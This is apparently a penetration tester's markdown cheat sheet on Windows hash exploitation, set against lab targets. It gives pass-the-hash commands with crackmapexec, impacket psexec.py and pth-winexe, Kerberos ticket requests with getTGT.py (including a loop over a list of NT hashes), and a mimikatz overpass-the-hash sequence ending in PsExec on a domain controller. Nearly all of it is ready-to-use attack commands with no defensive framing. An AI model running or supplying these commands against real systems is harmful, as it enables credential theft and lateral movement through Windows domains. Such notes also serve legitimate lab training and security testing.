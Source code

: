 ```yaml
---
title: Hash_exploitation
permalink: /Hash_Exploitation/Windows
---
```



## identify a hash

hashid $hash

## To connect with a hash
```crackmapexec smb $BOX -u Administrator -H $hash```  
```python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes $hash administrator@$IP_BOX cmd.exe```

## Pass the hash through smb ## 
```pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2 eb3b9f05c425e //10.11.0.22 cmd```


## Get-TGT
```getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:297f523d69d61de58b690f158f052c1d -dc-ip apt.htb.local htb/henry.vinson```
with a bunch of creds
```for x in $(cat nt_hashes);do getTGT.py -hashes x -dc-ip apt.htb.local htb/henry.vinson 2>/dev/null;done```

## Overpass the hash to gain a full Kerberos Ticket Granting Ticket (TGT) or service ticket ##
``` mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d 87aa966c327 /run:PowerShell.exe```
PS C:\Windows\system32> net use \\dc01
#created a TGT
PS C:\Windows\system32> klist
#we can use PSExec.exe which run a command remotely but does not accept password hashes.
#Though, it accepts ticket
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe

